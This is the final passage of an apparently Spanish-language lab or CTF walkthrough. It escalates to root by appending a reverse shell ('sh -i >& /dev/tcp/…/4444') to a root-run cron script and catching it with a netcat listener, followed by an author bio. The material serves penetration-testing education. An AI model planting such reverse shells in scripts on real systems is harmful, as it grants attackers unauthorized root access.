

A continuación, se edita **/opt/backup.sh** y se añade la reverse shell:

**sh -i >& /dev/tcp/10.0.2.15/4444 0>&1**



En la máquina atacante se abre una nueva terminal y se inicia Netcat en modo escucha:

**nc -lvnp 4444**

| Argumento | Significado |
| --- | --- |
| **-l** | Activa el modo escucha. |
| **-v** | Muestra información detallada sobre la conexión. |
| **-n** | Evita la resolución de nombres mediante DNS. |
| **-p 4444** | Establece el puerto local utilizado por el listener. |

Cuando cron vuelve a ejecutar el script, la máquina víctima establece una conexión con el listener. Como la tarea ha sido lanzada por **root**, la reverse shell también hereda sus privilegios. El comando **id** confirma que se ha comprometido completamente el sistema.



## 🧪 Post-Laboratorio

Una vez finalizada la máquina, se regresa a la terminal donde permanece activo el despliegue y se utiliza la combinación de teclas **Control + C** para detener y eliminar el laboratorio.



##  ¡Hola! Me llamo Saúl Ruiz

### Analista de Ciberseguridad | Seguridad Ofensiva y Pentesting

Soy Analista de Ciberseguridad y Técnico Superior en Administración de Sistemas Informáticos en Red. Actualmente desarrollo mi carrera en entornos SOC, participando en tareas de análisis, monitorización e investigación de eventos de seguridad.

Mi interés principal se orienta hacia la seguridad ofensiva, el pentesting y el análisis técnico, áreas en las que sigo formándome de manera constante para crecer profesionalmente dentro del sector.

A través de mi proyecto personal <b>[@PlaSysX](https://linktr.ee/PlaSysx)</b>, comparto contenido relacionado con informática, ciberseguridad y aprendizaje práctico, con el objetivo de aportar valor a quienes también quieren seguir creciendo en el mundo tecnológico.

